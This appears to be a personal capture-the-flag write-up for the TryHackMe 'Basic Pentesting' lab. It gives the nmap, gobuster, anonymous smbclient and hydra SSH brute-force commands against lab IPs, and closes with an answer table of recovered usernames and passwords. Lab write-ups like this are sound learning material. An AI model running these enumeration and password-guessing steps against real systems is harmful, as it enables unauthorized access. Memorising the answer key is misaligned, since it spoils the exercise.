 ```yaml
---
layout: post
title: Basic Pentesting
date:  2025-06-17 23:00:00 +0530 
categories: [Tryhackme]
tags: [hacking, tryhackme, Agent_Sudo,sudo, apt, ssh, ftp,smb] # TAG names should always be lowercase 
render_with_liquid: false
media_subpath: /images/Basic_pentesting/

---
```


# 🕵️‍♂️ Basic Pentesting — 17 June 2025

![TryHackMe Logo](THM.png)

![Basic Pentesting](BasicPen.png)

---

## 🚩 Table of Contents

1. [🕵️ Web App Testing & Privilege Escalation — Task 1](#-web-app-testing--privilege-escalation---task-1)
2. [❓ Questions and Answers](#-questions-and-answers)

---

# 🕵️ Web App Testing & Privilege Escalation — Task 1

## 🔍 Nmap Scan

**Command:**
```bash
sudo nmap -T4 -n -sC -sV -Pn -p- -oN networkScan.txt 10.10.242.113
```
![Nmap Scan Screenshot](nmap_scan.png)

---

## 📂 Directory Scan (Gobuster)

**Command:**
```bash
gobuster dir -u http://10.10.93.33/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -o directory_scan.txt
```
![Directory Scan Screenshot](directory_scan.png)

---

## 🗂️ SMB Enumeration

**List SMB Shares:**
```bash
smbclient -L //10.10.125.85/ -N
```
![SMB Shares](smb.png)

**Access Anonymous Share:**
```bash
smbclient //10.10.125.85/Anonymous -N
```
![SMB Anonymous](smb_u.png)
![SMB Anonymous Terminal](smb_t_u.png)

---

## 🔑 SSH Password Crack (Hydra)

**Command:**
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.242.113
```
![Hydra SSH Crack](ssh_hydra.png)

---

## ❓ Questions and Answers

| #  | Question                                                                 | Answer                                               |
|----|--------------------------------------------------------------------------|------------------------------------------------------|
| 1  | What is the name of the hidden directory on the web server (no `/`)?     | `development`                                        |
| 2  | What is the username?                                                    | `jan`                                                |
| 3  | What is the password?                                                    | `armando`                                            |
| 4  | What service do you use to access the server (abbreviation, all caps)?   | `SSH`                                                |
| 5  | What is the name of the other user you found (all lower case)?           | `kay`                                                |
| 6  | What is the final password you obtain?                                   | `heresareallystrongpasswordthatfollowsthepasswordpolicy$$` |

---

## 🎉 Happy Hacking!

![Charlie Hunnam GIF](https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExOWk4anV3OXV2cGt1a2F3aHdjdGd6YmhudXJ0aTBleG91anZ1amQ3YyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/jBOOXxSJfG8kqMxT11/giphy.gif)



